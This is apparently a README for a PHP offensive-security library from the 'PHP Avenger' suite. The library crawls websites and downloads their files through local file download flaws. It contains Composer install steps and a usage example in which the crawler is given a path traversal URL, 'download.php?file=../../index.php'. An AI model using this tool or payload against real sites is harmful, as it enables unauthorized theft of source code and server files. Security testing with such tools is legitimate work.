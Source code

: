 # Crawler - Download File By Local File Download

> ASZone - Crawler - Download File By Local File Download

### Beta

## Instalation

The recommended way to install PHP Avenger is through
[Composer](http://getcomposer.org).

```bash
# Install Composer
curl -sS https://getcomposer.org/installer | php
```

Next, run the Composer command to install the latest beta version of Php Avenger SH:

```bash
php composer.phar require aszone/crawler/download-file-by-lfd
```

## Basic Usage
```bash
$command=array();
$url="http://www.xxxx.com/download.php?file=../../index.php";
$crawler = new DownloadByLocalFileDownload($command,$url);
$crawler->getAllFiles();

```

## Help and docs
* [Documentation](http://phpavenger.aszone.com.br).
* [Examples](http://phpavenger.aszone.com.br/examples).
* [Videos](http://youtube.com/aszone).
* [Steakoverflow](http://phpavenger.aszone.com.br).

